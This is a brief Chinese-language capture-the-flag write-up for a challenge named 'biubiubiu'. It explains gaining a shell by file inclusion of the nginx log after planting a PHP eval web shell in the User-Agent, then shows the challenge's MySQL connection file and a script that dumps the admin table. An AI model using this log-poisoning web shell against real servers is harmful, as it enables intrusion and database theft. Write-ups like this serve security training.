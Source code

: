# biubiubiu

# Steps
* 非预期解:
文件包含，fuzz发现可包含nginx的日志文件，于是修改UA为```<?php eval($_REQUEST[test]);?>```即可getshell,查看conn.php文件可以获得mysql的连接信息，于是写php脚本连接mysql服务器，发现数据表名为admin，获取admin表内的所有信息即可获得flag.  
conn.php
```php
$db_host = 'mysql';
$db_name = 'user_admin';
$db_user = 'Dog';
$db_pwd = '';

$conn = mysqli_connect($db_host, $db_user, $db_pwd, $db_name);

if(!$conn){
    die(mysqli_connect_error());
}
```
eval的脚本：
```php
<?php
$servername = "localhost";
$username = "Dog";
$password = "";
$dbname = "user_admin";

$conn = mysqli_connect($servername, $username, $password, $dbname);

 
$sql = "SELECT * from admin";
$result = mysqli_query($conn, $sql);

while($row = mysqli_fetch_assoc($result)) print_r($row);

?>
```

* 预期解：
[记一次利用gopher的内网mysql盲注](https://www.jianshu.com/p/6747fbc7b289)
